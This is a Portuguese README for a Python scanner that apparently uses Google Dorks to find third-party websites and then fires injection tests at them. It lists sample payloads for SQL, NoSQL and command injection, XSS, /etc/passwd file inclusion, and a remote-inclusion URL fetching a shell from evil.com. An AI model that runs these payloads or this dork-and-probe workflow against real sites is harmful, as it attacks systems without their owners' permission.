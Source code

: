 # **Scanner de Vulnerabilidades Web**

## 📌 **Descrição**

O **Scanner de Vulnerabilidades Web** é uma ferramenta avançada desenvolvida em **Python** com interface gráfica utilizando **Tkinter**. Ele permite buscar e testar automaticamente sites vulneráveis, utilizando **Google Dorks** e técnicas automatizadas para detectar falhas de segurança. O scanner identifica vulnerabilidades como **SQL Injection, XSS, LFI, RFI, Open Redirect e NoSQL Injection**, fornecendo resultados detalhados e permitindo a exportação das informações.

A ferramenta é ideal para pesquisadores de segurança, desenvolvedores e profissionais de TI que desejam analisar a segurança de aplicações web de forma automatizada.

---

## 🚀 **Funcionalidades**

✅ **Busca por sites vulneráveis** utilizando **Google Dorks**.
✅ **Teste automático de vulnerabilidades** nos sites encontrados.
✅ **Exportação de resultados** para arquivo de texto.
✅ **Interface gráfica intuitiva**, desenvolvida com **Tkinter**.
✅ **Instalação automática de dependências**.
✅ **Lista extensa de Google Dorks** para facilitar buscas avançadas.
✅ **Execução rápida e eficiente** para testes de pentest.

---

## 📂 **Estrutura do Projeto**

```
/
|-- scanner.py  # Script principal com interface gráfica
|-- README.md   # Documentação do projeto
```

---

## 🛠 **Requisitos**

Este projeto requer **Python 3.x** e as seguintes bibliotecas:

- `requests`
- `googlesearch-python`
- `tkinter` (já embutido no Python)

Caso não tenha os módulos instalados, o próprio script fará a instalação automaticamente.

---

## 📥 **Instalação e Uso**

### 1️⃣ **Clonar o repositório**

```bash
git clone https://github.com/seu-repositorio/scanner-vulnerabilidades.git
cd scanner-vulnerabilidades
```

### 2️⃣ **Executar o scanner**

```bash
python scanner.py
```

---

## 🔍 **Como Funciona**

1. **Inicie o scanner** e insira uma palavra-chave para busca de sites vulneráveis.
2. **O script realiza pesquisas** utilizando **Google Dorks**.
3. **Os sites encontrados são testados** para diversas vulnerabilidades.
4. **Os resultados são exibidos na interface** e podem ser exportados para análise posterior.

---

## 🛑 **Testes de Vulnerabilidades**

O scanner realiza testes automáticos para identificar as seguintes falhas de segurança:

- **SQL Injection** (`OR 1=1 --`, `UNION SELECT NULL,NULL--`)
- **NoSQL Injection** (`{$ne:null}`, `{'$gt': ''}`)
- **Command Injection** (`; ls`, `&& whoami`)
- **XSS (Cross-Site Scripting)** (`<script>alert('XSS')</script>`)
- **LFI (Local File Inclusion)** (`../../../../etc/passwd`)
- **RFI (Remote File Inclusion)** (`http://evil.com/shell.php`)
- **Open Redirect** (`//evil.com`, `https://evil.com`)

---

## ⚠️ **Aviso Legal**

Este software foi desenvolvido **exclusivamente para fins educacionais e testes de segurança autorizados**. O uso indevido desta ferramenta para atacar sistemas sem permissão é estritamente proibido e pode resultar em sanções legais. O autor não se responsabiliza por quaisquer ações ilegais decorrentes do uso desta ferramenta.

---

## 📬 **Contato**

- **Desenvolvido por:** [@astrahvhdev](https://t.me/astrahvhdev)
- **Telegram:** [Contato](https://t.me/astrahvhdev)

---

**"A segurança da informação é uma responsabilidade de todos. Utilize esta ferramenta de maneira ética!"**

